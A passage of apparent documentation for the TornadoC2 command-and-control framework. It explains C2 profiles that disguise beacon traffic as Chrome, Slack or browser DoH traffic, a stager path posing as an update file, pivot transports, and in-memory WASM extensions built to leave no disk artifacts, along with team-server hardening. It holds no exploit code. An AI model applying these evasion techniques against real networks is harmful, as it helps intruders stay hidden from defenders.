Python listener reads the same block from the profile file
directly. Both sides must be started with the same profile.

**DNS label shaping applies to both DNS and DoH.** Both transports
compose the identical QNAME; a profile that changes the verbs
changes them for both.

**`dns_label` is single-instance.** The handler scans
`profiles/c2/` at startup and reads the *first* `dns_label` block
it finds, in alphabetical order by filename. A second `dns_label`
block in a later-sorting profile is silently ignored, and the
verb characters the agent was built with will not match the verb
characters the listener is dispatching on. Every DNS query is then
refused with an unknown-verb error and the beacon never checks in.

Today this is latent rather than active: `dns.json` is the only
in-tree profile with a `dns_label` block, and `d` sorts before
every other profile name. The ambiguity becomes real the moment
any other profile adds one.

Run a DNS-transport engagement with `--beacon-profile dns` on the
listener to make the choice explicit and independent of filename
order. The operator's checklist for a DNS build should include
that flag.

### Stager path

The `stager` block declares an alternate URL the stager fetches
its payload from. Empty or absent means the historical
`/stage/<name>` path.

```json
"stager": {
  "path": "/api/v1/assets/update.bin"
}
```

The listener registers the declared path as a route that serves
the same payload as `/stage/<name>`. The stager appends the
payload name as a `?name=` query parameter, so
`/api/v1/assets/update.bin?name=full` serves the payload named
`full`. A path that does not start with `/` is refused at load
time.

The stager's response headers reuse the profile's
`response_headers` block. There is no separate stager header
block.

**The HTTP portion of a C2 profile does not apply to the DNS
transport.** The DNS wire format carries its own framing, so the
three path fields, the User-Agent, the extra headers, and the
`shaping` block are all ignored on a DNS build. The `dns_label`
block **does** apply: a DNS build reads the three verb characters
and the chunk size from the profile, and the builder emits them as
linker flags. `--tls-profile` is ignored — DNS carries no TLS.

**The HTTP portion of a C2 profile does not apply to the DoH
transport.** DoH is a DNS transport with a different carriage; the
paths, User-Agent, and shaping block are irrelevant. The
`dns_label` block applies the same way it does on plain DNS. The
`--tls-profile` flag **does** apply to DoH — the TLS ClientHello
to the public resolver is exactly the fingerprint that matters
when the goal is blending with browser DoH.

**C2 profiles do not apply to ICMP.** ICMP carries no HTTP framing
at all.

**C2 profiles apply to WebSocket the same way they apply to HTTP.**
The WebSocket handshake path, the User-Agent, and the extra headers
are the same fields the HTTP transport would have carried, and the
C2 profile controls all of them. `--c2-profile chrome --transport
websocket` produces a WebSocket agent whose handshake path and
headers match a Chrome analytics client's.

**C2 profiles apply to the inner HTTP connection on a WireGuard
build.** The C2 protocol travels as a real HTTPS request inside the
tunnel: the agent dials
`https://<server-tunnel-ip>:<beacon-port>/<profile-path>` over the
userspace WireGuard device, and the team server's outer HTTP
listener handles it exactly as it handles a direct HTTPS request.
The profile's paths, User-Agent, extra headers, shaping block,
per-shape encoding and placement, per-role status codes, cookie
name, and response headers all travel through the tunnel and are
processed by the listener on the far side.

The one thing the profile cannot control is the **outer WireGuard
handshake**. WireGuard carries IP packets; the profile has no field
that reaches the tunnel's own framing. The message-type bytes, the
handshake initiation and response timing, the fixed-length keys,
and the outer UDP port are all set by the WireGuard protocol and by
the four `--wireguard-*` build flags, not by the profile.

`--tls-profile` does **not** apply to the inner TLS handshake on a
WireGuard build. The inner connection uses the Go standard
library's `crypto/tls`, not uTLS, so the ClientHello is the
standard library's regardless of what the build asked for. This is
a smaller gap than the WebSocket or HTTP case: the inner TLS never
crosses the public wire — a network observer sees only the
WireGuard handshake, which carries no ClientHello at all — so the
missing uTLS profile is invisible to anything outside the tunnel.
See [What this tool does not claim](#what-this-tool-does-not-claim)
for the full list of transports that carry this limitation.

The three layers, and what controls each:

| Layer | Controls |
|---|---|
| Inner HTTP request and response | The C2 profile — paths, UA, headers, shaping, encoding, placement, status codes, cookie name, response headers |
| Inner TLS handshake | `--tls-profile` |
| Outer WireGuard handshake | Fixed by the WireGuard protocol; keypairs and ports come from the `--wireguard-*` flags |

**C2 profiles apply to both the parent and the child on an SMB or
TCP pivot build.** The child shapes its own C2 body against the
profile it was built with, then wraps the shaped body in its own
wire envelope. The parent's relay forwards both the child's and the
server's wire envelopes verbatim: it never touches the shape. This
is forced by wire encryption — the shaped body sits inside the
child's wire envelope, and the parent does not hold the child's
wire session key. Only the child can decrypt the envelope and
unwrap the shape.

This has two consequences for build-time decisions:

1. **Both the parent and the child should be built with the same
   `--c2-profile`.** The parent's profile fixes the paths the
   parent sends to the team server — `beacon_path`, `tasks_path`,
   `results_path` — and the shape the server uses when it renders
   the response. The child's profile fixes the shape the child
   applies to its own request body and the extract path it uses to
   recover the payload from the server's response. If the two
   profiles disagree, the child will decrypt the response and then
   fail to unwrap the shape inside it.
2. **The parent's `--c2-profile` flag determines the paths on the
   wire.** A parent built with `--c2-profile chrome` sends child
   traffic to the server on Chrome-shaped paths; a parent built
   with `--c2-profile slack` sends it on Slack-shaped paths. The
   parent chooses the profile; the child must match it.

The rationale is that the child owns the wire session key and the
parent does not. Shaping on the parent's behalf is impossible — the
parent would have to decrypt the child's wire envelope to reach the
shaped body, and it holds no key to do so. Shaping in the child is
not a design preference; it is the only place the shaped body is
visible.

Operators can discover available profiles from the console with the
[`c2-profiles`](#c2-profile-catalogue) command.

---

## Extending TornadoC2

The framework exposes three extension points, each targeting a
different kind of contributor. Two are static configuration read at
handler startup; one is dynamic and hot-loads over the task channel.
Together they are the primary ways the framework grows.

### Adding a transport

A new transport is **two classes plus mechanical glue in seven
files**.

**The two classes hold the design.**

1. A Python listener class that inherits from `BeaconListener`
   (or `DNSTransport` for query-response protocols).
2. A Go client class that inherits from the transport interface.

Everything the transport actually *does* — parsing the wire
format, chunking, reassembly, session handling, error paths —
lives in those two files. The engine does not know which transport
carried a frame; the agent does not know how the listener
terminated the socket. `beacon/listener.py`, `engine.py`, and the
agent's verb dispatch are all transport-agnostic. They receive a
request and produce a response; the transport is what carries the
bytes.

**The seven mechanical edits connect the two classes to the build
system and the running handler.** Each follows the same template
that every existing transport already follows — there is no design
work in any of them, only a name-swap of the same pattern.

| File | What is added |
|------|---------------|
| `agent/core/config.go` | One `Config` struct field per build-time value |
| `agent/core/main.go` | Package vars, `Main()` assignments, one `case` in the `newAgent()` switch |
| `agent/stageless/ldflags.go` | One package var per field, with default value |
| `agent/stageless/main.go` | One line in the `core.Config{...}` literal per field |
| `beacon/builder.py` | Transport validation plus one `-X main.X=Y` linker flag per field |
| `beacon/build_manager.py` | One `cfg.X = params.get('x')` line per field |
| `beacon_handler.py` | One CLI flag per listener port plus one `start()` call |

The operator client — `tornado_client/repl.py` and
`tornado_client/gui.py` — needs no change at all. The client talks
to the server API; the transport is a server-to-agent concern. The
build wizards in those files do need one line per new transport (a
display label and a `transport_mode` value in the transport list),
but that is a data entry, not a code change — the wizard itself
does not touch the transport implementation.

The ten transports in the tree are the proof of the pattern:

| Transport | Python class | Go client |
|-----------|--------------|-----------|
| HTTPS | `BeaconListener` | HTTP |
| QUIC / HTTP/3 | `QUICListener(BeaconListener)` | quic-go |
| WebSocket | `WebSocketListener` | coder/websocket |
| DNS TXT | `DNSTransport` | miekg/dns |
| DoH | (same as DNS on the server) | DoH client |
| ICMP | `ICMPTransport(DNSTransport)` | raw socket |
| WireGuard | `WireGuardTransport` | chrj/wgnet |
| SMB pivot | inherited from `BeaconListener` | named-pipe client |
| TCP bind pivot | inherited from `BeaconListener` | TCP client (child dials) |
| TCP reverse pivot | inherited from `BeaconListener` | TCP client (parent listens) |

Each is a pair of classes plus the same set of mechanical edits.

**What the new transport must supply.** The base class contract is
small: parse the request, hand the body to the engine handler,
take the response the engine produces, and write it back on the
wire in whatever framing the transport uses. Session-cookie
handling, C2 profile shaping, wire encryption, and the audit chain
are all handled above the transport layer — the transport is a
byte carrier, not a protocol participant.

**Handler restart required.** The listener's transport set is
determined at startup, alongside the profile set. A new transport
class is registered when the handler boots; there is no runtime
registration. See
[Startup-time configuration](#startup-time-configuration).

**Why this matters.** The contribution barrier is the lowest of
any C2 framework currently available, and the barrier is
concentrated where the interesting work is. Cobalt Strike's
transports are closed-source and cannot be added. Sliver requires
modifying the core transport registry and the agent's transport
dispatch. Mythic's C2 profiles are Docker containers that speak an
RPC protocol — powerful, but a full service to write and deploy.
A two-class transport plus template-matched glue across seven
files is a weekend project for anyone who has read the base class
once, and the seven-file glue is the same shape for every
transport that has ever been added.

### Adding a C2 profile

A new C2 profile is **one JSON file** under `profiles/c2/`. There
is no code to write, no schema to migrate, no registry to update,
and no coordination with the team server operator. The workflow is:
drop the JSON file in the directory, restart the handler, build
against the new profile.

The restart is the one step that cannot be avoided. Profiles are
static configuration, read once at handler startup and never
reloaded. There is no file watcher and no console command to
reload the directory.

The schema is documented in full under
[C2 Profiles](#c2-profiles), but the schema surface is small:

- Three paths (`beacon_path`, `tasks_path`, `results_path`).
- A User-Agent (and an optional Linux override).
- Extra request headers, per-role request headers.
- A `shaping` block: per-shape template, extract path, encoding,
  and placement.
- A `status` block: per-role HTTP status codes.
- A `cookie_name` field.
- A `response_headers` block.
- A `dns_label` block: DNS verb characters and per-chunk size.
- A `stager` block: alternate payload fetch path.

Every field is optional. An empty JSON file produces a profile that
declares the framework's default paths with no shaping, which is
valid and works.

**Validation is at load time, not at build time.** The handler
refuses a profile with colliding paths, malformed shaping, or
invalid encoding when it reads the directory at startup. The agent
re-validates the shaping block at build time with a round-trip
probe. A profile that passes both gates is guaranteed to produce a
working agent.

The two gates are sequential: a profile is validated by the
handler when the handler starts, and re-validated by the builder
when an agent is compiled against it. A profile that fails the
first gate never becomes buildable; a profile that passes the first
gate but fails the second is refused at build time with a specific
error naming the failed shape.

**Why this matters.** Profile authoring is a per-operator activity,
not a team-server-wide decision. An operator who discovers that a
particular SaaS endpoint is permitted on a target network can
write a profile for it in an afternoon, drop it in `profiles/c2/`,
and every other operator on the team server can build against it
as soon as the handler is restarted. The restart is a normal
operational event — the queue and the session registry survive it,
and deployed beacons reconnect on their next poll. What the model
avoids is a *second* team server: no second port, no second
certificate, no second operator console, no coordination with
whoever runs the handler about which port to use for which profile.

### Adding a WASM extension

Covered under [Beacon Extensions](#beacon-extensions). The
extension host exposes a four-function ABI; a capability can be
added after deployment by pushing a WASM module over the
ECDSA-signed task channel. The agent binary does not change; the
module never touches disk; the wasm interpreter does not JIT to
executable memory.

Unlike transports and profiles, WASM extensions **do** hot-load.
They are the one extension surface that does not require a handler
restart, because a WASM module is self-contained: it does not
change the shape of the wire, so it cannot invalidate an
already-deployed agent.

### The contribution-path summary

Three surfaces, three different kinds of contributor, three
different change cadences:

| Surface | Effort | Contributor | What changes | Handler restart |
|---------|--------|-------------|--------------|-----------------|
| Transport | Two classes plus mechanical glue in seven files | Network engineer who has read the base class | Two new classes; seven template-matched edits | Yes |
| C2 profile | One JSON file | Operator who knows the target's traffic shape | One JSON document, no code | Yes |
| WASM extension | One `.wasm` module | Developer who knows the host ABI | One module, pushed at runtime | No |

The two static surfaces — transports and profiles — are read at
startup and fixed for the life of the process. The dynamic surface
— WASM extensions — is the one that hot-loads over the task
channel. The split is deliberate: a transport or a profile change
alters the shape of the wire, and every already-deployed agent was
built against the old shape. A WASM module is self-contained; it
does not change the wire, so it can be pushed at runtime without
invalidating anything.

No other C2 framework currently offers all three contribution paths
with comparable barriers. Cobalt Strike has an open BOF ecosystem
but closed transports and Aggressor scripts as the only extension
surface. Sliver and Havoc require core modifications for a new
transport. Mythic is extensible by design but each extension is a
containerized service. TornadoC2's transport path puts the design
work in two self-contained classes and the plumbing in a fixed
template that every existing transport already follows; the
profile path is a single JSON file; and the extension path is a
single WASM module with no restart at all.

---

## Beacon Extensions

The agent carries a sandboxed WASM extension host.

### Host ABI

**Imports:**

| Symbol | Signature | Purpose |
|--------|-----------|---------|
| `host_out` | `(ptr, len)` | Append bytes to the result buffer |
| `host_read` | `(path_ptr, path_len, buf_ptr, buf_cap) -> u32` | Read a file |
| `host_env` | `(name_ptr, name_len, buf_ptr, buf_cap) -> u32` | Read an environment variable |
| `host_args` | `(buf_ptr, buf_cap) -> u32` | Read the operator's arguments |

**Exports:**

| Symbol | Signature | Purpose |
|--------|-----------|---------|
| `run` | `() -> i32` | Entry point |

### OPSEC posture

| Property | How |
|----------|-----|
| No disk artifact | Base64 travels in a task, decodes into memory, and is handed to wazero |
| No executable memory page | wazero interpreter, never JITed to `PROT_EXEC` |
| No new syscall | WASM modules cannot issue syscalls |
| No new process | Nothing in the extension path calls `exec.Command` |
| No binary hash change | The agent binary is identical with zero extensions and with fifty |
| Memory ceiling | 16 MiB per module |

See `tornadoc2/extensions/netiface/` for a full example.

---

## Server Hardening

The team server is the highest-value asset in the deployment. Several
layers of defence exist beyond the crypto.

### Operator listener binding

The operator listener binds to `0.0.0.0` by default when
`--operator-port` is set, so a remote operator can reach it without a
second flag. Pass `--operator-host 127.0.0.1` explicitly for
loopback-only operation, or a specific interface address for a
single-interface bind.

When the listener binds to a public interface, the startup banner emits
a warning. An operator who runs on a remote VPS sees the warning
immediately and can either add a firewall rule or restart the handler
bound to a specific address.

### Operator password (second factor)

Every operator can carry a password in addition to the mTLS client
certificate.

**Derivation.** scrypt (N=131072, r=8, p=1, dklen=32) with a
**per-operator random salt** — 16 bytes generated by the server at
operator creation and rotated on every password change. The salt is
stored on the operator record as `auth_salt` (hex) and carried in the
exported config so both sides derive the same key. scrypt is
memory-hard: a GPU-based cracker pays 128 MiB per candidate rather
than the 32 bytes that PBKDF2 allows. The derivation cost (~1 s on a
modern desktop) is paid once at operator creation and once at client
startup, so it is invisible to the operator.

**Server side.** `operator add <name> [role]` prompts for a password
after the role is chosen. Leaving it blank creates a cert-only
operator — the default and the correct choice for automated workflows.
Setting a password stores the hex digest as `auth_hash` on the
operator record, alongside `auth_algo` (`scrypt`), `auth_params`
(`{"n": 131072, "r": 8, "p": 1}`), and `auth_salt` (hex of the random
16-byte salt). The salt is generated on the server and never travels
outside the operator record and the exported config.

**Client side.** The exported config carries `password_required: true`
plus `auth_algo`, `auth_params`, and `auth_salt`. The client prompts
once at startup, derives the same key using the config's salt, and
includes three headers on every request:

| Header | Value |
|--------|-------|
| `X-Operator-Ts` | Unix epoch seconds |
| `X-Operator-Nonce` | Random 16-hex string |
| `X-Operator-Mac` | HMAC-SHA256 over `ts ‖ nonce ‖ path`, keyed by the derived password |

**Server check.** `_extract_peer` refuses any request from a
password-protected operator whose HMAC is missing, expired
(`± 300 s` window), or invalid. Cert-only operators skip the check
entirely, so the change is backwards compatible. The reason for a
refusal is carried in the response body as a structured `auth_error`
code (`password_required`, `password_invalid`, `revoked`,
`unknown_operator`, `cert`) so the client can route the operator to
the right fix.

**Rotation.** `operators passwd [<name>]` from a remote client, or
`operator passwd <name>` from the local console. A blank password
clears the second factor entirely. After a change to their own
password, the client's config is re-exported automatically by the
server and the operator must restart the client to pick up the new
derivation parameters; a change to another operator's password
requires re-exporting that operator's config before they reconnect.

**Threat model, stated honestly.** This protects against a leaked
`.cfg` file. The password is not stored in the config; the operator
who receives the config must be given the password out of band
(Signal, in person, sealed envelope — not over the C2 channel). An
attacker who steals the config alone cannot authenticate. An attacker
who steals both the config and the server's `operators.json` can — the
stored hash is the HMAC key. Keep `operators.json` on the server only,
treat it like the CA private key, and back it up accordingly.

### Server certificate expiry

The server certificate is minted with `-days 365` by
`ensure_server_cert`. When it expires, every operator's TLS
handshake fails with `certificate has expired` before any of the
auth checks fire — the failure is legible but not actionable, and
the operator has no warning ahead of time.

The operator listener therefore checks the server certificate at
startup and prints a warning on stdout when it is within 30 days
of expiry, and a distinct error line when it has already expired.
Both name the fix: stop the handler, delete `team_ca/server.pem`
and `team_ca/server.key`, restart, then re-export every operator
config with `operators export`. The re-export is required because
each config pins the fingerprint of the specific certificate that
was current when the config was written — a re-minted certificate
has a new fingerprint, and the pin refuses it.

The check is wrapped so a missing `cryptography` package or an
unparseable cert does not block startup; the warning is
informational and the deployment still boots.

### Server certificate pinning

The operator client pins the **SHA-256 fingerprint of the server's
TLS certificate** in addition to verifying the chain against the CA.
The fingerprint travels in the exported config as
`server_cert_sha256`, and the client checks it inside the TLS
handshake, after the peer certificate is presented but before any
HTTP request is sent.

This closes two windows that CA verification alone leaves open:

- **CA-key compromise.** An attacker who recovers the team CA private
  key can mint a server certificate that chains successfully against
  the CA embedded in the config. The pin refuses any certificate whose
  fingerprint does not match the one shipped at export time — the
  attacker would also need the handler's signing key or a way to
  rewrite the `.cfg`.
- **Config tampering.** An attacker who can modify the `.cfg` in
  transit could otherwise swap the CA for their own and terminate
  TLS with a certificate that verifies against it. The pin makes the
  swap detectable on the first connection.

The pin is per-config. Rotating the server certificate — `openssl
regenerate` on `team_ca/server.pem`, for example — requires re-exporting
every operator's config. The warning below is not hypothetical: a
mismatch is refused outright, and the client prints the expected and
actual fingerprints so the operator can escalate.

### Session TTL

A client that connects and stays connected is bounded by an absolute
**12-hour session lifetime**, independent of the certificate's own
expiry. Every authenticated request from an operator is checked
against a per-process first-seen timestamp; once that timestamp is
older than `SESSION_TTL_SECONDS` (12 hours), the request is refused
with a `session_expired` `auth_error` code, and the record is dropped
so the next request is treated as a fresh session.

The client's response to `session_expired` is to clear the cached
HMAC key and retry once. A password-protected operator is re-prompted;
a cert-only operator simply continues. Either way, the session that
follows is a genuinely new one — the server has already dropped the
stale timestamp.

**What this protects against.** An operator who walks away from an
unlocked machine leaves a live client with a valid cert and a cached
HMAC key. Without a TTL, that session stays valid until the cert
expires — up to 365 days on the default team CA. With a 12-hour TTL,
the leaked machine can authenticate for at most 12 hours from the
first request. Combined with the cookie-rotation command, this bounds
the window in which a stolen operator session is exploitable.

**What this does not protect against.** A credential stolen *after*
the operator re-authenticates is a fresh session and gets a full 12
hours. TTL is a bound, not a wall.

### Nonce replay protection

For password-protected operators, every request carries an
HMAC-SHA256 over `ts ‖ nonce ‖ path` keyed by the derived
password. The HMAC proves the request was signed by someone
holding the key; it does not prove the request has not been
replayed. A captured `(ts, nonce, mac)` triple is valid until the
timestamp falls outside the ±300 s window.

The server records every seen `(operator, nonce)` pair and
refuses a second use. The cache is bounded at 65536 entries and
pruned on every authenticated request; a misbehaving client cannot
grow it without limit. A replayed request is refused with the
same `password_invalid` code as a bad HMAC, so a replay attempt
is indistinguishable from a wrong password in the response.

### Cookie rotation

`rotate-cookies` from the local console regenerates the cookie signing
key and clears every cached cookie. Every live session re-checks-in
within one sleep interval and receives fresh cookies. The rotation is
audited.

Use when a cookie is suspected to have leaked — via a captured
request, a proxy log, or an untrusted client machine — and the handler
cannot be restarted without losing queued tasks.

### Operator-console feature capabilities

Three capabilities govern the operator-console features added alongside
the beacon subsystem. None of them touch the agent; a beacon never
learns that the operator has a credential vault.

| Capability | Grants |
|-----------|--------|
| `creds.use` | Full access to the credential vault — list, get, add, search, validate, delete |
| `notes.use` | Full access to engagement-wide notes. Per-beacon notes are governed by `beacon.use` because they are scoped to a beacon |
| `webhooks.manage` | Register hooks, and list, test, or remove the hooks you added yourself. Hooks added by another operator are outside this capability's scope |
| `webhooks.manage.admin` | List, test, and remove **any** hook, regardless of who added it. Granted to `admin` and `local` only |

All three are granted to `operator` and `admin`. None is granted to
`viewer` or `guardian`. The server enforces the capability at the
request handler, not just at the client's command filter — a
hand-crafted request from a credential that does not carry the
capability is refused with a 403 and audited.

**Per-beacon notes and the alias/tag store are gated by `beacon.use`**
rather than by a dedicated capability. This reflects that they are
beacon-scoped metadata: an operator who can run a command on a beacon
can also name it and take notes on it. An operator who cannot reach a
beacon at all has no reason to enumerate or mutate its aliases.

**Cancelling a task requires `beacon.use`.** The ownership rule is
applied on top: an operator with `beacon.use` can only cancel tasks
they themselves queued, or — as an admin — system-queued tasks. There
is no separate `beacon.cancel` capability; the interesting constraint
is ownership, not role.

### Beacon listener rate limiting

A per-source-IP token bucket wraps the beacon listener's WSGI app
before Flask routes the request. Default 30 tokens per second
sustained, 100-token burst. Requests over the limit receive a 429 with
a `Retry-After: 5` header. State is pruned every two minutes, dropping
entries idle for more than ten minutes.

This is a DoS mitigation, not a compromise defense. An attacker who
discovers the beacon port can generate TLS handshakes without
application-layer checks; the bucket only slows the application-layer
work.

### Operator listener pre-auth rate limiting

The operator listener carries a second bucket, keyed on source IP
and running **before** the client certificate is parsed. It exists
because the per-operator bucket cannot protect the authentication
path itself: an operator is not identified until `_extract_peer`
has already run, and a request with a bad HMAC never reaches the
per-operator check. Without the pre-auth bucket, an actor holding
one valid certificate can flood the HMAC comparison at the cost of
a werkzeug worker thread per request.

The limits are generous — 100 requests per second sustained with a
300-request burst — because a legitimate client polls a long-poll
endpoint a handful of times per second at most, and the burst
never fires on real traffic. The bucket is bypassed for long-poll
endpoints, which have a sustained low-rate shape the pre-auth
bucket cannot distinguish from a hostile burst on the same address.

### Concurrent request cap

Each operator is bounded to six in-flight requests. The rate
limiter counts requests per second; this counts requests that are
actually executing. A single operator with a stuck client — a
slow long-poll, a hung read — can otherwise hold every werkzeug
worker thread and starve every other operator.

Long-poll endpoints (`/beacon/<id>/result`, `/chat/poll`,
`/beacon/<id>/tasks`) are exempt from the *rate* limiter but not
from the *concurrent* cap. An operator who opens many concurrent
polls is still a problem, and the cap catches it.

### Rate-limit and cache tuning

The relevant constants live in `tornado_client/constants.py` and
`team/server.py`. Adjust and restart the handler to change them.

| Constant | Default | Effect |
|----------|---------|--------|
| `RATE_PER_SEC` | 30 | Sustained requests per second, per operator |
| `RATE_BURST` | 100 | Burst allowance for a single operator |
| `CHAT_PER_SEC` | 3 | Chat-specific sustained rate |
| `CHAT_BURST` | 10 | Chat-specific burst |
| `MAX_CONCURRENT_PER_OPERATOR` | 6 | In-flight request cap, includes long-polls |
| `NONCE_CACHE_MAX` | 65536 | Hard cap on the replay-prevention cache |
| `SESSION_TTL_SECONDS` | 43200 (12 h) | Absolute session lifetime |

Raising `MAX_CONCURRENT_PER_OPERATOR` lets a slow client consume
more werkzeug threads. Raise it only if the operator count is
small and the server's thread pool is large. Raising the rate
limits lets an operator flood faster; there is rarely a reason to.

### Audit chain

Every operator action writes to a hash-chained audit log under
`logs/audit/combined.log`. Each entry contains the SHA-256 of the
previous entry; the chain tail is anchored by an HMAC in
`logs/audit/checkpoint.json`. Verification runs at startup and on
demand via `audit verify` in the console.

### Audit correlation on responses

Every mutating API response — success or refusal — carries an
`X-Audit-Id` header whose value is the ID of the audit-chain
entry that recorded the request. A script that calls the API
directly can capture the ID and cross-reference it against
`logs/audit/combined.log` to confirm the entry exists and was
not tampered with.

The response body also carries the same ID in an `audit_id`
field. Refused mutations carry the ID in both places, so a
failed request is as traceable as a successful one.

### What is not audited

Two classes of request are deliberately not written to the audit
chain, matching the principle that the chain records
state-changing actions and not derived state.

- **`/api/v1/beacons` (the beacon listing).** The GUI polls this
  endpoint every four seconds, and the CLI refreshes it on `use`,
  `detach`, `beacons`, and several commands. Every poll would
  otherwise be one fsync into the hash-chained log; a team of ten
  operators running the GUI generates roughly 150 entries per
  minute from passive polling alone, on the most frequently
  exercised endpoint. Presence is not audited elsewhere in the
  module for the same reason, and `beacon.list` is functionally
  presence in aggregate. The meaningful events — attach, detach,
  task, kill, alias, tag, cancel — are audited at their own
  endpoints.
- **Presence heartbeats.** `/api/v1/chat/poll` records the
  caller's presence on every request, and the entry expires on a
  30-second TTL. Auditing each poll would drown the chain without
  adding signal; the presence roster is derived state,
  re-computed from the poll stream on demand.

### Unhandled handler exceptions

Every request handler runs inside a try/except in `_with_cap`. An
unhandled exception produces a JSON 500 with an `audit_id` and a
full traceback on stdout, rather than Flask's default HTML error
page. The reason is that the client's transport reads the response
body with `json.loads`; an HTML body surfaces as the useless
`Expecting value: line 1 column 1 (char 0)` that tells the
operator nothing about what went wrong. The audit entry is on the
chain, the traceback is in the handler log, and the response body
names the exception class and message.

### BOF registry hardening

The BOF registry is a shared resource that every operator with
`beacon.build` can write to. Three layers of defence apply:

- **Name validation.** A BOF name must match
  `^[A-Za-z_][A-Za-z0-9_]{0,63}$`. Path separators, dots, and
  traversal sequences are rejected before the filename is built.
- **COFF machine check.** The first two bytes of an uploaded blob
  must match a known machine type (`0x8664` AMD64, `0x014C` I386). A
  `.cna` or any non-COFF file is rejected at upload time with a
  specific error rather than producing a broken registry entry.
- **Directory permissions.** `bofs/` is created 0700 and re-chmodded
  on every registry load, so a pre-existing world-readable directory
  is tightened on the next run.
- **Size and count caps.** 10 MiB per BOF and 512 registered BOFs —
  640 MiB worst-case on disk from this endpoint alone.
- **No execution.** The server never interprets a stored blob. See
  [BOF Registry › What the server never does](#what-the-server-never-does).

### Chat text sanitization

Chat bodies, DM bodies, file display names, and the pinned topic all
pass through a single sanitizer (`SANITIZER_VERSION = 2`) before they
are stored in the ring, rendered on any operator's terminal, or
written to the audit chain. There is no second sanitization point —
what the sanitizer returns is what every consumer sees.

The threat model covers three classes of cross-operator attack:
terminal escape sequences (CSI, OSC, C0, C1) that move the cursor,
change colours, or set the window title; line-structure control bytes
(`\r`, `\n`, `\t`) that let a message overwrite the attribution header
the client prepends; and Unicode formatting controls (bidi overrides
and isolates, zero-width characters, the tag block) that make displayed
text differ from stored bytes.

The sanitizer flattens line structure, strips escape sequences and
formatting controls iteratively (up to four passes), NFC-normalizes,
caps combining marks at three per base character, collapses whitespace,
and enforces the length cap on the sanitized form. When the input was
modified — bytes stripped, NFC length change, or combining-mark drop —
the audit chain carries the base64 and SHA-256 of the raw form
alongside the delivered text. See
[Team Chat › Forensic preservation](#forensic-preservation).

What it does not do: escape shell metacharacters, HTML, or JSON (those
belong to the layer that consumes the text); or detect homoglyphs (a
Cyrillic `а` renders identically to a Latin `a`).

---

## Team Chat

Every operator connected to the team server shares a single in-memory
chat room, delivered over the same mTLS operator API as every other
action. Every message — broadcast, action, DM, notice, and file
announcement — is written to the hash-chained audit log before the
response returns, so chat is non-repudiable and non-deletable.

### Design

The room is a bounded `deque` of 10000 messages held in process memory
by `ChatRoom`. Long-polling readers are woken by a condition variable
the instant a new message lands. The ring is capped at 4096 bytes per
message; worst-case footprint is roughly 4 MiB. The pinned topic is a
single struct alongside the ring.

**The ring is per-process, but the JSONL store is not.** A server
restart clears the live window and the pinned topic, but on startup
the ring is rehydrated from `logs/chat/chat.jsonl` — the last
`MAX_MESSAGES` (10000) entries written before the restart. The
practical effect is that "what did we say last night" is answerable
without grepping the audit chain: `/history` reads the ring, and
`/history --persist` reads the file, which reaches back further and
survives a restart. Both files live under `logs/chat/` alongside the
existing `chat.txt` mirror; neither replaces the audit chain, which
remains the authoritative record.

**The audit chain is the durable record.** Every message is written to
`logs/audit/combined.log` as a `chat.message` entry before the
`/chat/send` response returns. A human-readable mirror is written to
`logs/chat/chat.txt` for `tail -f` and for grepping without a JSON
parser; the chain is authoritative.

### Message kinds

| Kind | Sent by | Rendered as |
|------|---------|-------------|
| `chat` | Any operator | `<time>  <speaker>  ❯ <body>` |
| `action` | `/me <text>` | `<time>  * <speaker>  <body>` |
| `dm` | `/dm <peer> <text>` | `<time>  [dm → <peer>]  <body>` or `<time>  [dm ← <sender>]  <body>` |
| `notice` | Server, on join/leave | `<time>  -- <operator> entered the room --` |
| `file` | Server, after `/file` | `<time>  <speaker>  📎 <name> (<size>) sha256:<hash>` |

`notice` text is server-authored from a fixed table keyed on a fixed
event vocabulary. A client-supplied `text` field on a notice request is
discarded, so a hostile client cannot forge a system line.

### Direct messages

A DM is delivered only to its sender and its recipient. The filter runs
server-side in `ChatRoom._visible_to` inside the poll and history
paths; a non-party's client never receives the bytes. Recipients are
validated against the operator registry before the message is accepted
— DMs to nonexistent or revoked operators, to `room` (a reserved name),
and to self are rejected with a structured 400.

Every DM is audited with `target=<recipient>` and the body prefixed
`to=<recipient>:`. The default `audit` view filters `chat.*` entries,
so a DM does not appear in the room-scoped scrollback unless the
operator asks for it with `audit chat`. Non-repudiation applies to DMs
identically: neither party can deny having sent a message to the other.

**Privacy, stated honestly.** A DM is filtered out of every other
operator's client, but the full text is written to the audit chain and
to `logs/chat/chat.txt` verbatim. Operators should not use `/dm` for
anything they would not want an admin reading after the fact. The
`/help` output inside chat says this explicitly.

### Sanitization

Every message body, DM body, notice event name, pinned-topic text, and
file display name passes through a single sanitizer before it is
stored, rendered, or audited. The sanitizer strips ANSI CSI and OSC
sequences, C0/C1 control bytes, DEL, line-structure bytes (`\r`, `\n`,
`\t`), and Unicode formatting controls (bidi overrides and isolates,
zero-width characters, the tag block). It then NFC-normalizes, caps
combining marks at three per base character, collapses whitespace, and
enforces the 4096-byte length cap on the sanitized form.

The sanitizer is not a content filter. It does not escape shell
metacharacters, HTML, or JSON, and it does not detect homoglyphs. See
[Server Hardening › Chat text sanitization](#chat-text-sanitization)
for the full threat model and the step-by-step pipeline.

### Forensic preservation

When the sanitizer changes a body — stripped bytes, NFC length change,
or combining-mark drop — the server writes a second `chat.message`
entry with `outcome=sanitized` carrying the byte count removed, the
iteration count, the sanitizer version, the SHA-256 of the raw input,
and the base64 of the raw input.

The delivered message carries only the clean form; the raw is kept out
of every operator's live view. The chain records both, so an operator
cannot deny having sent a control sequence.

The b64 field is capped at ~2250 bytes of raw input so the audit entry
stays within its detail budget; when the cap fires, a
`raw_truncated=1` marker is set and the SHA-256 is still the full
digest. To recover the raw bytes, read the chain file directly:

    grep '"outcome": "sanitized"' logs/audit/combined.log | tail -1

The `audit chat` client command truncates `detail` at 100 characters —
before the `raw_b64` field — so the log file is the source of truth
when the raw form is needed as evidence.

### File sharing

`/file <path>` uploads, `/get <sha256> [<path>]` downloads, `/files`
lists, `/delete <sha256>` removes a file you uploaded. The server
stores and serves bytes; it never opens, parses, sniffs, or executes a
stored file. There is no MIME detection, no server-side preview, no
execution path.

**Content-addressed storage.** Blobs are written to
`logs/chat/files/<sha256>` — 64 lowercase hex, no extension, no
original name, no user input in the path. The original filename
travels only in the message body, where it goes through the sanitizer
as any other chat text. Deduplication is by hash, not by name: Alice
uploading `report.pdf` and Bob uploading the same bytes as
`report (1).pdf` share one blob.

**Sidecar.** Owner, timestamp, and display name are written to a
`<hash>.meta` JSON file in a second atomic write. The display name is
